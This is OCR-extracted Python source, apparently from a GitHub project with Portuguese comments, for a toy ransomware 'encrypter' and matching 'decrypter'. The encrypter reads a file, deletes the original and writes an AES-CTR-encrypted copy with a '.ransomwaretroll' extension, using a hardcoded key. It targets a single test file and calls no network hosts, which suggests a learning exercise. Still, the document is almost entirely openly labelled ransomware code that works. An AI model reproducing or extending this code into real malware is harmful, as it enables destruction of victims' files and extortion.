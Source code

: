 encrypter<br>
<br>
import os <br>
import pyaes <br>
<br>
## abrir o arquivo a ser criptografado<br>
file_name = "teste.txt"<br>
file = open(file_name, "rb")<br>
file_data = file.read()<br>
file.close()<br>
<br>
## remover o arquivo<br>
os.remove(file_name)<br>
<br>
## chave de criptografia<br>
key = b"testeransomwares"<br>
aes = pyaes.AESModeOfOperationCTR(key)<br>
<br>
## criptografar o arquivo<br>
crypto_data = aes.encrypt(file_data)<br>
<br>
## salvar o arquivo criptografado<br>
new_file = file_name + ".ransomwaretroll"<br>
new_file = open(f'{new_file}','wb')<br>
new_file.write(crypto_data)<br>
new_file.close()<br>
<br>

decrypter<br>
<br>
import os<br>
import pyaes<br>
<br>
## abrir o arquivo criptografado<br>
file_name = "teste.txt.ransomwaretroll"<br>
file = open(file_name, "rb")<br>
file_data = file.read()<br>
file.close()<br>
<br>
## chave para descriptografia<br>
key = b"testeransomwares"<br>
aes = pyaes.AESModeOfOperationCTR(key)<br>
decrypt_data = aes.decrypt(file_data)<br>
<br>
## remover o arquivo criptografado<br>
os.remove(file_name)<br>
<br>
## criar o arquivo descriptografado<br>
new_file = "teste.txt"<br>
new_file = open(f'{new_file}', "wb")<br>
new_file.write(decrypt_data)<br>
new_file.close()<br>
